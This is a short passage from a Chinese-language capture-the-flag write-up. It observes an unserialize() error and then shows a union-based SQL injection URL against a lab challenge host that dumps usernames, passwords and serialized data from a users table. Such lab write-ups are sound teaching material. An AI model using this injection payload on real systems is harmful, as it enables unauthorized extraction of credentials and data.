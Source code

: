 ![](assets/202208251038677-17007445962539.png)

报错信息里有 unserialize(), 猜测可能对 sql 查询的某个结果进行了反序列化

继续注入看看

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=-1 union  select 1,group_concat(no,',',username,',',passwd,',',data),3,4 from users
```

![](assets/202208251043444-170074459625311.png)
